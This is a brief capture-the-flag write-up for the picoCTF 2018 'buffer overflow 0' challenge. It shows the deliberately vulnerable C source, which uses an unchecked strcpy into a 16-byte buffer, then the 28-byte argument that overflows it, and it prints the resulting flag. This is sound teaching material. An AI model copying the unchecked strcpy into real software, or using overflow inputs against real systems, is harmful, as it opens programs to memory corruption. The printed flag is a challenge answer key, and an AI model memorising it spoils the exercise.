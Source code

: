## buffer overflow 0

Problem

>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631 on the shell server. Source.

1. login online shell and move the folder.

2. see the source code with cat code.
```
8ma10@pico-2018-shell:/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
    fprintf(stderr, "%s\n", flag);
    fflush(stderr);
    exit(1);
}                                               

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}                                               

int main(int argc, char **argv){
    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
        exit(0);
    }
    fgets(flag,FLAGSIZE_MAX,f);
    signal(SIGSEGV, sigsegv_handler);
    
    gid_t gid = getegid();
    setresgid(gid, gid, gid);                   
    
    if (argc > 1) {
        vuln(argv[1]);
        printf("Thanks! Received: %s", argv[1]);
    }
    else
        printf("This program takes 1 argument.\n");
    return 0;
}
```

3. input 28bytes char and run vuln.
```
8ma10@pico-2018-shell:/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631$ ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
```

FLAG - `picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}`